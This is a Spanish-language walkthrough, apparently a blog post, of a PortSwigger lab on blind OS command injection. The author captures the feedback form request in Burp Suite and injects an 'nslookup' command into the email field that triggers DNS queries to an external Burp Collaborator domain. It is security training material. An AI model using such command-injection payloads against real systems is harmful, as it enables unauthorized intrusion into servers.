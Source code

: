 ```yaml
---
title: "Blind OS command injection with out-of-band interaction"
description: "Laboratorio de Portswigger sobre OS Command Injection"
date: 2024-12-01 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - OS Command Injection
tags:
  - Portswigger Labs
  - OS Command Injection
  - Blind OS command injection with out-of-band interaction
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `Blind OS Command Injection` en la `función` de `comentarios`. La aplicación `ejecuta` un `comando` en la `terminal` que incluye `datos` proporcionados por el `usuario`. El `comando` se ejecuta de forma `asíncrona` y no tiene efecto en la `respuesta` de la aplicación. No es posible `redireccionar` la `salida` a una `ubicación` accesible. Sin embargo, podemos desencadenar `out-of-band interactions` con un `dominio externo`. Para resolver el `laboratorio`, debemos explotar la `vulnerabilidad` para realizar una `consulta DNS` a `Burp Collaborator`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/OS-Command-Injection-Lab-4/image_1.png)

Pulsamos en `Submit feedback` y vemos un `formulario`

![](/assets/img/OS-Command-Injection-Lab-4/image_2.png)

Hacemos `click` sobre `Submit feedback` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/OS-Command-Injection-Lab-4/image_3.png)

La `respuesta` obtenida son unas `llaves vacías {}`

![](/assets/img/OS-Command-Injection-Lab-4/image_4.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard`, debido a que no recibimos `ninguna respuesta` que indique que estamos `inyectando comandos`, esta es la única forma que podemos utilizar para ello, debemos usar este `payload` en los diferentes `campos` para ver si son `inyectables`

```
csrf=zRp2nJC1bIBQPQcICpkP7l9cHlAfYlE8&name=test&email=||nslookup+t712dnvp65v6mtbksuisdlxe95fw3rrg.oastify.com||&subject=test&message=test
```

Si nos vamos a `Burpsuite Collaborator` nuevamente veremos que hemos obtenido `dos peticiones DNS`

![](/assets/img/OS-Command-Injection-Lab-4/image_5.png)
